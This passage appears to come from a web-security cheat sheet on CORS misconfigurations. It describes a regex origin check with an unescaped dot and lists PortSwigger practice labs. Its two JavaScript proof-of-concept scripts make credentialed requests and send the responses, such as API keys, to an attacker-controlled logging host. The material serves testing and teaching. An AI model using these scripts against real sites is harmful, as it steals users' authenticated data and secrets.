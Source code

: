 #### Proof of Concept (Example 1)

This PoC requires the respective JS script to be hosted at `evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

#### Vulnerable Implementation (Example 2)

In this scenario the server utilizes a regex where the dot was not escaped correctly. For instance, something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, the dot can be replaced with any letter to gain access from a third-party domain.

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```

#### Proof of concept (Example 2)

This PoC requires the respective JS script to be hosted at `apiiexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```


## Labs

* [PortSwigger - CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
* [PortSwigger - CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
* [PortSwigger - CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
* [PortSwigger - CORS vulnerability with internal network pivot attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)
